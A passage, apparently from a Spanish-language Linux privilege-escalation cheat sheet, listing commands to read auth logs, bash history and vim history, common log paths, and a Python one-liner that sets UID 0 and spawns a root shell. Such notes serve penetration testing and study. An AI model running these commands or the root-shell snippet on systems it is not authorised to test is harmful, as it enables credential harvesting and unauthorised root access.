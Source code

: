 ```s
cat /var/log/auth.log* | grep -i COMMAND|tail
```
#### [](#header-4)Historial del Bash
```s
cat ~/.bash_history
```
#### [](#header-4)Archivos accesados usando vim
```s
cat ~/.viminfo
```
### [](#header-3)ARCHIVOS DE LOG

#### [](#header-4)Syslog
```s
/var/log/syslog
```
#### [](#header-4)Auth logs
```s
/var/log/auth.log
```

#### [](#header-4)Python en el sistema
```py
import os
os.setuid(0)
os.system("/bin/bash")
```
